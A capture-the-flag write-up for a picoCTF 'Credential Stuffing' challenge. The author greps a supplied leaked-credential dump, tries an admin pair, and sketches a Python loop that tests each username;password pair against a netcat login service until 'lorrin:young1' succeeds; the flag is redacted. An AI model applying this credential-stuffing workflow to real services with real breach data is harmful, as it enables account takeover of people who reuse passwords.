



# Credential Stuffing

**Category:** Web Exploitation
**Difficulty:** Medium
**Challenge:** Credential Stuffing

---

## Challenge Description

The challenge describes a recent data breach at a famous department store. A dump of leaked credentials is provided, and the goal is to test whether one of those users reused the same credentials on a local banking service.

We are given a TCP service:

```bash
nc crystal-peak.picoctf.net 63589
```

The goal is to find valid credentials and retrieve the flag.

---

## Understanding the Attack

Credential stuffing is an attack where leaked username/password pairs are automatically tested against another service.

This works because many users reuse the same credentials across multiple websites.

In this challenge, the leaked dump contains many credentials in this format:

```text
username;password
```

So the task is not to brute-force random passwords, but to test existing leaked pairs one by one.

---

## Inspecting the Credentials Dump

After extracting the challenge files, I listed the directory and found the credentials dump:

```bash
ls
```

Output:

```text
assets  creds-dump.txt
```

Then I inspected the beginning of the dump:

```bash
head creds-dump.txt
```

The file contained credentials separated by a semicolon:

```text
rora;winner1
birendra;rumble
khalid;sting
stanislaw;ming
maged;nimrod
sigrid;telephon
alysse;sutton
emely;tyrant
cornel;rodman
shamira;marion
```



This confirmed that each line follows:

```text
username;password
```

---

## First Manual Attempt

Before automating the attack, I searched for an obvious admin credential:

```bash
grep -n "^admin;" creds-dump.txt
```

The dump contained:

```text
1045:admin;charity
```

So I manually tried:

```bash
nc crystal-peak.picoctf.net 63589
```

Credentials tested:

```text
Username: admin
Password: charity
```

However, the service returned:

```text
Invalid username or password
```



This proved that the `admin;charity` pair existed in the leaked dump, but it was not valid for the banking service.

So I needed to test the full credentials dump.

---

## Automating the Credential Stuffing

The service is a raw TCP prompt. It asks for:

```text
Username:
Password:
```

Because of that, I wrote a small script to read the dump and try each leaked pair against the service.

The script logic was:

1. Read every line from `creds-dump.txt`.
2. Split each line using `;`.
3. Connect to the TCP service.
4. Send the username.
5. Send the password.
6. Check whether the response contains `Invalid username or password`.
7. Stop when a valid credential is found.

Example structure:

```python
with open("creds-dump.txt") as f:
    for line in f:
        username, password = line.strip().split(";", 1)
        # connect to service
        # send username
        # send password
        # check response
```

This is exactly the intended credential stuffing workflow: testing leaked username/password pairs against another service.

---

## Finding Valid Credentials

After running the script, it tested many leaked pairs.

The script eventually found a valid credential near the end of the dump:

```text
SUCCESS 1398 lorrin:young1
```

Valid credentials:

```text
Username: lorrin
Password: young1
```


---

## Verifying Manually with Netcat

To confirm the result, I logged in manually using `nc`:

```bash
nc crystal-peak.picoctf.net 63589
```

Then I entered the valid credentials:

```text
Username: lorrin
Password: young1
```

The service authenticated successfully:

```text
Authenticating...
Welcome lorrin!
picoCTF{...}
```


For the public writeup, the flag is redacted:

```text
picoCTF{...PWNED...}
```

---

## Vulnerability Explanation

The banking service accepted credentials that were reused from a leaked credentials dump.

This is a classic credential stuffing scenario:

```text
Leaked department store credentials
        ↓
Same user reused credentials on bank
        ↓
Attacker tests leaked pairs
        ↓
Valid login found
        ↓
Flag retrieved
```

The vulnerability is not a technical bug in the login prompt itself. The weakness comes from password reuse.

The valid credentials were not guessed randomly. They were taken from the leaked dump and tested automatically.

---

## Attack Flow

```text
Download credentials dump
    ↓
Inspect dump format
    ↓
Identify username;password pairs
    ↓
Try obvious admin credential manually
    ↓
Admin credential fails
    ↓
Automate testing of all leaked pairs
    ↓
Find valid pair: lorrin:young1
    ↓
Login manually with nc
    ↓
Retrieve flag
```

---

## Commands Used

Inspect the dump:

```bash
head creds-dump.txt
```

Search for admin:

```bash
grep -n "^admin;" creds-dump.txt
```

Manual login:

```bash
nc crystal-peak.picoctf.net 63589
```

Example valid login:

```text
Username: lorrin
Password: young1
```

---

## Tools Used

* Linux terminal
* `grep`
* `nc`
* Python socket script
* Credentials dump

---

## Key Takeaways

* Credential stuffing uses known leaked username/password pairs.
* Password reuse can compromise accounts on unrelated services.
* Testing the `admin` credential first was useful, but it was not valid.
* Automating the dump was necessary because the valid credential was hidden among many entries.
* The successful credential was:

```text
lorrin:young1
```

---

## Final Flag

```text
picoCTF{...PWNED...}
```
